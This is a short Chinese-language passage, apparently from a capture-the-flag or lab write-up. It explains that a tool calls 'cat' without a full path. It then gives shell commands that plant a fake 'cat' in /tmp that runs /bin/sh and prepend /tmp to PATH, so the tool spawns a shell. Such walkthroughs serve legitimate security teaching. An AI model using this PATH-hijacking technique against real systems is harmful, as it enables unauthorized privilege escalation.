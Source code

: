 ![image-20230614193309594](图片/image-20230614193309594.png)

该工具接受用户输入作为将使用cat命令读取的文件的名称，但是，它没有指定文件cat的整个路径，因此我们可能能够利用这一点。我们将导航到/tmp目录，并创建一个名为cat的文件，其中包含以下内容

```
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
export PATH=/tmp:$PATH
echo $PATH
```
